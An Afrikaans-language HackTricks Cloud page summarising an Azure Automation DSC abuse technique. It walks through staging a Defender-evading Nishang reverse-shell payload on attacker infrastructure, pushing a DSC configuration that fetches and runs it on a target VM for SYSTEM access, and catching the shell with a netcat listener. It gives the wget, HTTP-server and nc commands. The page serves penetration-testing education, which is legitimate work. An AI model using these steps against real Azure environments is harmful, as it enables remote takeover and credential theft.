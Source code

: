 # Az - State Configuration RCE

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Kyk na die volledige pos in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Samevatting van Afgeleë Bediener (C2) Infrastruktuur Voorbereiding en Stappe

#### Oorsig

Die proses behels die opstelling van 'n afgeleë bediener infrastruktuur om 'n gewysigde Nishang `Invoke-PowerShellTcp.ps1` payload, genaamd `RevPS.ps1`, te huisves, wat ontwerp is om Windows Defender te omseil. Die payload word bedien vanaf 'n Kali Linux masjien met IP `40.84.7.74` deur 'n eenvoudige Python HTTP bediener. Die operasie word deur verskeie stappe uitgevoer:

#### Stap 1 — Skep Lêers

* **Benodigde Lêers:** Twee PowerShell skripte is nodig:
1. `reverse_shell_config.ps1`: 'n Gewensde Standaard Konfigurasie (DSC) lêer wat die payload aflaai en uitvoer. Dit is verkrygbaar van [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1).
2. `push_reverse_shell_config.ps1`: 'n skrip om die konfigurasie na die VM te publiseer, beskikbaar op [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).
* **Aanpassing:** Veranderlikes en parameters in hierdie lêers moet aangepas word vir die gebruiker se spesifieke omgewing, insluitend hulpbronname, lêerpaaie, en bediener/payload identifiseerders.

#### Stap 2 — Zip Konfigurasie Lêer

* Die `reverse_shell_config.ps1` word gecomprimeer in 'n `.zip` lêer, wat dit gereed maak vir oordrag na die Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Stap 3 — Stel Bergingskonteks in & Laai op

* Die gecomprimeerde konfigurasie-lêer word na 'n vooraf gedefinieerde Azure Storage-container, azure-pentest, opgelaai met behulp van Azure se Set-AzStorageBlobContent cmdlet.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Stap 4 — Berei Kali Box Voor

* Die Kali-bediener laai die RevPS.ps1 payload af van 'n GitHub-bewaarplek.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Die skrip is gewysig om die teiken Windows VM en poort vir die omgekeerde skulp te spesifiseer.

#### Stap 5 — Publiseer Konfigurasie Lêer

* Die konfigurasie lêer word uitgevoer, wat lei tot die ontplooiing van die omgekeerde-skulpskrip na die gespesifiseerde ligging op die Windows VM.

#### Stap 6 — Gasheer Payload en Stel Luisteraar Op

* 'n Python SimpleHTTPServer word begin om die payload te gasheer, saam met 'n Netcat luisteraar om inkomende verbindings te vang.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Die geskeduleerde taak voer die payload uit, wat SYSTEM-vlak voorregte bereik.

#### Gevolgtrekking

Die suksesvolle uitvoering van hierdie proses open talle moontlikhede vir verdere aksies, soos kredensiaal dumping of die uitbreiding van die aanval na verskeie VM's. Die gids moedig voortgesette leer en kreatiwiteit in die gebied van Azure Automation DSC aan.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
